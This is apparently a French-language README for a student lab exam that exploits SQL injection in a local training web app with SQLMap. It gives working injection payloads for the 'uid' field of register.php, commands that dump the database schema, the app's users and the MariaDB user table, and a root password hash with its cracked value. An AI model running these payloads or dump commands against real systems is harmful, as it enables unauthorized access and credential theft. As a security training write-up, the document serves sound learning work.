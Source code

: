 # Projet : Exploitation SQL Injection avec SQLMap

## Description

Ce projet explore l'exploitation de vulnérabilités SQL Injection sur une application web locale. L’outil **SQLMap** a permis d’identifier plusieurs types de failles SQL Injection, et d’extraire des informations sensibles de la base de données, notamment les utilisateurs et les privilèges.

### Identification de la base de données et vulnérabilités SQL Injection

Lors des tests initiaux, l’insertion d’une apostrophe (`'`) dans le champ `uid` du formulaire `register.php` a produit une erreur SQL révélant l'utilisation de **MariaDB** comme système de gestion de base de données. En suivant cette indication, une commande SQLMap a été exécutée pour tester la présence de vulnérabilités. Cette commande a révélé plusieurs failles exploitables :

```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" --level=2 --risk=3 --batch
```

Les vulnérabilités détectées sont les suivantes :

1. **Injection SQL de type boolean-based blind** :
   - **Description** : Cette technique permet de manipuler des requêtes SQL basées sur des conditions booléennes.
   - **Exemple de Payload** : `uid=test' RLIKE (SELECT (CASE WHEN (7373=7373) THEN 0x74657374 ELSE 0x28 END)) AND 'ZdRI'='ZdRI`

2. **Injection SQL de type error-based** :
   - **Description** : Cette technique repose sur les erreurs SQL renvoyées par le serveur pour obtenir des informations.
   - **Exemple de Payload** : `uid=test' AND EXTRACTVALUE(5067,CONCAT(0x5c,0x71716b7671,(SELECT (ELT(5067=5067,1))),0x716b6a6271)) AND 'tpCd'='tpCd`

3. **Injection SQL de type time-based blind** :
   - **Description** : Cette technique permet d’utiliser des délais de réponse pour vérifier la validité des requêtes.
   - **Exemple de Payload** : `uid=test' AND (SELECT 2799 FROM (SELECT(SLEEP(5)))gnXJ) AND 'XAFL'='XAFL`

Ces vulnérabilités ont confirmé la possibilité d'exploiter les injections SQL et d'extraire des données sans authentification.

---

## Objectifs de l'examen

1. Effectuer un dump du schéma de la base de données.
2. Récupérer la liste des utilisateurs de l'application.
3. Récupérer la liste des utilisateurs de MariaDB.
4. Obtenir et déchiffrer le mot de passe root de MariaDB via attaque par force brute.
5. Extraire le mot de passe administrateur de l'application.

---

## Fichiers Exportés

Voici les fichiers générés au format `.csv` et `.txt` contenant les informations récupérées :

- **Schéma de la base de données :**
  - [Schéma de la base `sqlitraining`](output/sqlitraining-schema.csv)
  - [Tables dans `information_schema`](output/information_schema-tables.csv)
  - [Tables dans `sys`](output/sys-tables.csv)
  - [Tables dans `mysql`](output/mysql-tables.csv)

- **Utilisateurs de l'application :**
  - [Liste des utilisateurs de l'application](output/sqlitraining-users.csv)

- **Utilisateurs de MariaDB :**
  - [Liste des utilisateurs de MariaDB](output/mysql-users.csv)

- **Mot de passe root de MariaDB :**
  - [Mot de passe root de MariaDB (force brute)](output/root-password.txt)

- **Mot de passe administrateur de l'application :**
  - [Mot de passe administrateur de l'application](output/admin-password.txt)

---

## Commandes SQLMap Utilisées

Voici un aperçu des commandes SQLMap exécutées pour chaque objectif :

### 1. Détection de la vulnérabilité SQL Injection

**Commande utilisée :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" --level=2 --risk=3 --batch
```

### 2. Extraction du Schéma de la Base de Données

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining --tables --batch
```

**Extraction des tables dans `information_schema` :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D information_schema --tables --batch
```

### 3. Récupération des Utilisateurs de l'Application

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining -T users --dump --batch --dump-format=CSV
```

### 4. Récupération des Utilisateurs de MariaDB

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D mysql -T user --dump --batch --dump-format=CSV
```

### 5. Extraction du Mot de Passe root de MariaDB

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D mysql -T user -C User,Host,authentication_string --dump --where="User='root'" --batch
```

- **Détails** : Le mot de passe obtenu, `81F5E21E35407D884A6CD4A731AEBFB6AF209E1B`, correspond à **root** après décryptage sur **CrackStation**. Ce mot de passe était encodé en MySQL4.1+.

### 6. Extraction du Mot de Passe Administrateur de l'Application

**Commande :**
```bash
sqlmap -u "http://localhost:8888/register.php" --data="uid=test&password=test&name=test&descr=test" -D sqlitraining -T users --dump --batch
```

---

### Notes Légales

L'utilisation de **SQLMap** pour des attaques sans autorisation préalable est illégale. Ce projet est réalisé dans un cadre d'apprentissage sécurisé et contrôlé.

